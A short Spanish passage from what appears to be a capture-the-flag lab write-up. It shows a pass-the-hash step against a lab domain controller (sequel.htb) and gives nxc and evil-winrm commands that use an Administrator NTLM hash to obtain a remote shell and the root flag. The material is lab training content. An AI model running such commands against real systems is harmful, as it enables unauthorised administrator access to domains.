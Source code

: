 Una vez obtenido el hash NTLM del usuario `Administrator@sequel.htb` procederemos a validar que podemos realizar _**Pass-The-Hash**_ y conectarnos al DC mediante `evil-winrm` y verificar la flag de **root.txt.**

```bash
nxc smb 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'

evil-winrm -i 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

<figure><img src="../../../.gitbook/assets/3515_vmware_4uNV62D8hD.png" alt=""><figcaption></figcaption></figure>

